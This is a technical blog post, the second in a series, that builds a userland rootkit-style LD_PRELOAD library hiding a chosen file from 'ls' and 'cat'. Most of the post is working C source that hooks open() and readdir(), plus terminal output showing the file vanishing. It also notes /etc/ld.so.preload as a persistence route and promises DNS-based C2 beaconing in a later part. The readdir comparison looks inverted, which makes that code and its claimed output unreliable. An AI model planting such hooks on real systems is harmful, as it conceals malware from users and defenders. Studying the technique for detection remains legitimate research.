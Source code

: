 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 2)"
date: 2022-10-04T21:45:03+03:00
draft: false
---
```


## Series

1. [Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)]({{< ref "/posts/dynamic-linker-hijacking-experiments.md" >}})
2. (this one)

## Journey Post
This post is a something that I call "journey post", this follows my process of researching and implementing the solution for the problem (or the challenge). I will wrap/pre-fix parts of the post with html-like `<journey>` so that you can skip it if you are in a hurry.

<hr />

## Overview

In the last post I've described how I hid a file from all the sys calls that are using `readdir`. In this post I will try to hide it from the `cat` command. Let's first examine/reverse engineer how the `cat` command works internally.

Naturally I would start with a simple [strace](https://man7.org/linux/man-pages/man1/strace.1.html) which will trace the system calls and signals that the command uses. 

```console
$ which cat
/usr/bin/cat
$ strace /usr/bin/cat syl.lys
execve("/usr/bin/cat", ["/usr/bin/cat", "syl.lys"], 0x7ffca9c17508 /* 68 vars */) = 0
...
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory) // WINK WINK, not yet
...
openat(AT_FDCWD, "syl.lys", O_RDONLY) = 3
```

The most interesting sys call in the output is `openat` so lets see the source code of [openat.c](https://github.com/coreutils/gnulib/blob/master/lib/openat.c#L182). Here we can see the `char const *file` that variable is what holds our filename (look at the `strace` output). After that, I followed our steps in the last [post](dynamic-linker-hijacking-experiments) by implementing a function with the same signature and wrapping the original one. 

`<journey>`


After a few tries of trying I was quick to realize that there is some issue. The wrapper that I've implemented didn't work, or at least didn't work all the time. I've tested it out with a simple program that would just call it and in there it worked, I didn't quite get why it does what it does but I found the following discussions:

- [intercepting the openat() system call for GNU tar](https://stackoverflow.com/questions/9161116/intercepting-the-openat-system-call-for-gnu-tar)
- [How to find out what functions to intercept with LD_PRELOAD?](https://stackoverflow.com/questions/49314057/how-to-find-out-what-functions-to-intercept-with-ld-preload)

As it turns out (my best guess) the sys call that I am trying to override `openat` is probably not the one that the `cat` uses. I decided to look at the source code for [cat.c][https://github.com/coreutils/coreutils/blob/master/src/cat.c] and search for everything that has `*open*` in it.

I found on [line 686](https://github.com/coreutils/coreutils/blob/master/src/cat.c#L686) a call to the `open`. An important note here is that this `open` call here is not the sys call but the call in the std lib which will call the related system call for us. So I've decided to change my approach and override the `open` function instead.

`</journey>`

How does the [open function](https://man7.org/linux/man-pages/man2/open.2.html) work? I wouldn't try to explain something that I am hardly good at so it is best for you to read the man pages for that one.

Let's start by copying the signature of the [open function](https://github.com/coreutils/gnulib/blob/master/lib/open.c#L59) and wrap it.

```c
static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

In this code block I've wrapped the original `open` function with our implementation of the `open` function. What is left now is to add our "malicious" part to it.

```c
if (strcmp(filename, MALICIOUS_FILE) == 0) 
{
    errno = ENOENT; // Setting up the error to be ERROR NO ENTRY(ENOENT)
    return -1; // Returning -1 (failure)
}
```

And lastly all together

[intercept_open.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/intercept_open.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{   
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

Let's see if its working...

```console
$ ls
intercept_open.so  syl.lys
$ LD_PRELOAD=./intercept_open.so cat syl.lys
cat: syl.lys: No such file or directory
```

As you can see the `cat` command returns `No such file or directory` which is exactly what we are aiming for.

## Combining it with our `readdir`

We created a malicious `open` function that wraps the original one from the standard lib, lets now combine it with the `readdir` from the previous post into a single shared object.

[malicious.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/malicious.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <dirent.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;
struct dirent *(*original_readdir)(DIR *dirp) = NULL;

int open (const char *filename, int flags, ...)
{
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}

struct dirent *readdir(DIR *dirp) 
{
    struct dirent *ret;
    original_readdir = dlsym(RTLD_NEXT, "readdir");

    while((ret = original_readdir(dirp))) {
        if(strstr(ret->d_name, MALICIOUS_FILE) == 0)
            break;
    }
    return ret;
}
```

Let's test it out, supposedly we shouldn't get entries from `ls` and `cat`.

```console
$ touch syl.lys
$ ls
intercept_open.c  malicious.c  malicious.so  syl.lys
$ export LD_PRELOAD=./malicious.so
$ ls
intercept_open.c  malicious.c  malicious.so  README.md
$ cat syl.lys
cat: syl.lys: No such file or directory
```

# End
With that I am concluding this post, again if you reached here thank you so much it means a lot! In the next part I will get deeper and make our malicious file to be running and beaconing a malicious C2 server, we will look through some C2 communication examples using the DNS protocol so that we can remain under the radar(or the firewall ^^).

[Full Source Code](https://github.com/syrull/evasive_techniques/tree/main/Part_2_open)

# Resources

This post wouldn't be possible without:

- https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-5.html
- https://linux.die.net/man/2/openat
- And some kind StackOverflow users! 